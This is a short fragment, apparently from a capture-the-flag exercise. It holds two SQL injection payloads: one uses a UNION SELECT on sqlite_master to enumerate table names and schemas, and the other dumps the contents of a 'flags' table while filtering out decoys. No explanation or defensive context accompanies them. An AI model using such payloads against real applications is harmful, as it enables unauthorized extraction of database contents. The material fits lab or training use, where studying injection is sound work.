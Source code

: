 ' union SELECT name AS table_name,1,1, sql AS table_definition  FROM  sqlite_master  WHERE type ='table' AND  name NOT LIKE 'sqlite_%
' union SELECT flag,flag,flag,flag from flags where flag NOT LIKE 'not flag%

